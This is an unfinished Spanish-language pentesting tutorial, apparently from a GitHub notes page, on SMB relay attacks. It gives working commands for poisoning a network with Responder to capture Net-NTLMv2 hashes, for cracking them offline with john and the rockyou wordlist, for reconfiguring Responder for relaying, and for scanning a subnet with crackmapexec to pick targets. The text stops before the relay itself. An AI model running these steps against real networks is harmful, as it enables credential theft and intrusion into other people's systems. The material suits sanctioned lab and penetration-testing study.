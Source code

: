 # SMB relay tipico

## ⚠️ EN PROCESO

## SMB relay tipico

Utilizaremos la herramienta Responder.py que encontramos en:

```bash
/usr/share/responder
```

> En caso de no tenerlo, podemos descargarlo desde [aqui](https://github.com/lgandx/Responder)

Estando en el directorio anterior podremos modificar la configuracion del responder.py en `Responder.conf` lo dejaremos por defecto.

Ejecucion de la herramienta:

```bash
python3.9 Responder.py -I eth0 -rdw
```

* `-I` Indicamos la interfaz que usaremos.
* `-rdw`
  * `r` Habilite las respuestas para las consultas de sufijos wredir de netbios.
  * `d` Habilite las respuestas para las consultas de sufijos de dominio netbios.
  * `w` Iniciar el servidor proxy WPAD

Una vez ejecutada la herramienta estariamos envenenando toda la red. Como samba no esta firmado no se valida la legitimidad del origen.\
Por ejemplo, cuando un usuario acceda a un recurso compartido que no existe desde el responder pillamos la comunicacion y de paso el hash `Net-NTLMv2` del usuario.

Una vez obtenido los hashes, los copiamos a un nuevo fichero para luego atacarlos por fuerza bruta de manera offline. Vamos a crackearlos con john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

* `--wordlist` Indicamos el diccionario que queremos usar, en nuestro caso, rockyou
* `hashes` Nombre del fichero donde tenemos los hashes copiados.

## Envenenamiento IPV4

Modificamos el `Responder.conf`

```bash
nano /usr/share/responder/Responder.conf 
```

Ponemos en false SMB y HTTP

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off <---
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off <---
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

En nuestro directorio de trabajo, creamos un archivo `targets.txt` e indicamos la direccion ip del equipo que queramos atacar. Para encontrar la ip utilizaremos crackmapexec:

```bash
crackmapexec smb 10.0.0.0/24
```

* `smb` Indicamos que queremos utilizar el protocolo samba
* `10.0.0.0` Direccion de red que queremos escanear
* `/24` Numero CIDR (mascara de subred), deberia ser 8 pero solo me ha funcionado con /24.
